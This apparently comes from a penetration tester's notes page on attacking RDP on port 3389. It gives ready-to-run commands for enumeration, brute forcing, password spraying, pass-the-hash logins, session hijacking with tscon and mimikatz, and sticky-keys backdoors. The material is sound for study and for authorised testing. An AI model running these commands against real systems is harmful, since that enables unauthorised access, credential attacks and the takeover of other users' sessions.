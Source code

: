 ```yaml
---
title: Port 3389 - Remote Desktop Protocol (RDP)
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port
  - "3389"
  - mimikatz
---
```


# Port 3389 - Remote Desktop Protocol (RDP)

## Description

Source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp and [HacktheBox Academy](https://academy.hackthebox.com/module/112/section/1242).

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).

| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |

RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration. The `Remote Desktop` service is installed by default on Windows servers and does not require additional external applications. This service can be activated using the `Server Manager` and comes with the default setting to allow connections to the service only to hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (`NLA`).

## Enumeration

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

nmap uses RDPcookies (mstshash=nmap) to interact with the RDP server. These cookies can be identified by  security services such as EDRs, and can lock us out, so we need to think twice before running that scan.

```bash
nmap -Pn -sV -p3389 --script rdp-*  $ip
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) is a perl script to enumerate security settings of an RDP Service (AKA Terminal Services).

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check

./rdp-sec-check.pl $ip
```


## Connection with rdp

To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used. 
We can connect to RDP servers on Linux using [xfreerdp](xfreerdp.md), [rdesktop](rdesktop.md), or Remmina and interact with the GUI of the server accordingly.

### xfreerdp

[See xfreerdp](xfreerdp.md).

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```bash
xfreerdp /v:$ip
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

Try to login with other default accounts, such as user, admin, Administrator, and so on.  We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them:

```bash
xfreerdp /cert:ignore /u:Administrator /v:$ip
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

If successful, during the initialization of the RDP session, we will be asked for a password. We can hit Enter to see if the process continue without one. 
Sometimes there are severe mishaps in configurations like this and we can gain access.

If you know user and credentials:

```bash
xfreerdp /u:<username> /p:<"password"> /v:$ip 
```


## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://$ip

hydra -V -f -L <userslist> -P <passwlist> rdp://$ip

hydra -L user.list -P password.list rdp://$ip

```
Be careful, you could lock accounts

## Password Spraying

Be careful, you could lock accounts

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```bash
rdesktop -u <username> $ip
rdesktop -d <domain> -u <username> -p <password> $ip
xfreerdp [/d:domain] /u:<username> /p:<password> /v:$ip
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@$ip
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

